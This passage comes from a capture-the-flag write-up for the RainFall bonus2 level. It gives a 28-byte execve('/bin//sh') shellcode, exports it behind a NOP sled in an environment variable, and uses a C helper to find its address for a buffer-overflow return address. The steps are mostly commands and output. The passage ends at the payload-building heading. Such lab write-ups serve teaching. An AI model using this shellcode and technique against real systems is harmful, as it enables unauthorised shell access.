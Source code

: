 **Note**: The offset of 58 is from the start of the concatenated string (argv[1] + argv[2]). Since we control argv[1] (40 bytes) and argv[2] (32 bytes), the offset in argv[2] is: `58 - 40 = 18 bytes`.

### 2) Choose shellcode and place it in environment

We'll use a classic execve("/bin//sh") shellcode (28 bytes):

**Shellcode**: [https://shell-storm.org/shellcode/files/shellcode-811.html](https://shell-storm.org/shellcode/files/shellcode-811.html)
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

Export it in an environment variable with a large NOP sled:

```bash
bonus2@RainFall:~$ export SHELLCODE=$(python -c 'print"\x90" * 120 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

### 3) Find the address of the shellcode

Create a helper program to find the environment variable address:

```c
// /tmp/shellcode.c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    printf("%p\n", getenv("SHELLCODE"));
    return 0;
}
```

Compile and run:
```bash
bonus2@RainFall:~$ cc /tmp/shellcode.c -o /tmp/shellcode
bonus2@RainFall:~$ LANG=fi /tmp/shellcode
0xbffff88f
```

**Shellcode address**: `0xbffff88f`

We can aim for an address in the middle of the NOP sled to increase reliability. Let's calculate the address 60 bytes into the NOP sled:

```python
>>> hex(0xbffff88f + 60)
'0xbffff8cb'
```

**Target address**: `0xbffff8cb` (middle of the 120-byte NOP sled)

### 4) Build the exploit payload
